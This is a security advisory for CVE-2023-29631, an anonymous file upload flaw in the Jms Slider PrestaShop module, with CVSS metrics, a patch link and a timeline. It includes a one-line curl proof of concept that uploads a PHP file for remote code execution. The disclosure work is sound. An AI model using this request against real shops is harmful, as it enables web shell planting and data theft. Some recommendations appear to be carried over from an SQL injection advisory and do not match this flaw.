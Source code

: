 ```yaml
---
layout: post
title: "[CVE-2023-29631] Unrestricted upload vulnerability in Jms Slider (jmsslider) PrestaShop module"
categories: modules
author:
- Creabilis.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.8)"
---
```


The module Jms Slider (jmsslider) from Joommasters contains an unrestricted upload of file with dangerous type vulnerability.
This module is for the PrestaShop e-commerce platform and mainly provided with joo masters PrestaShop themes

## Summary

* **CVE ID**: [CVE-2023-29631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29631)
* **Published at**: 2023-03-13
* **Advisory source**: Joomasters
* **Platform**: PrestaShop
* **Product**: jmsslider
* **Impacted release**: at least 1.6.0
* **Product author**: Joommasters
* **Weakness**: [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* **Severity**: critical (9.8)

## Description

ajax_jmsslider.php can be called anonymously to upload a php file that can be used for RCE.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -F "data_image=@test.php" "https://preprod.XXX/modules/jmsslider/ajax_jmsslider.php?secure_key=VALUE_AVAILABLE_ON_FRONTOFFICE&action=addLayer&data_type=image&id_slide=99999"
```

## Patch
Provided by the editor
https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html

## Timeline

| Date | Action |
|--|--|
| 2019-09-04 | Vulnerability publish by the editor |
| 2023-02-17 | Contact the author |
| 2023-03-13 | Publish this security advisory |

## Other recommandations

* Upgrade PrestaShop beyond 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Links

* [Joom masters web site](https://www.joommasters.com/)
* [Joom masters blog post on the vulnerability](https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html)

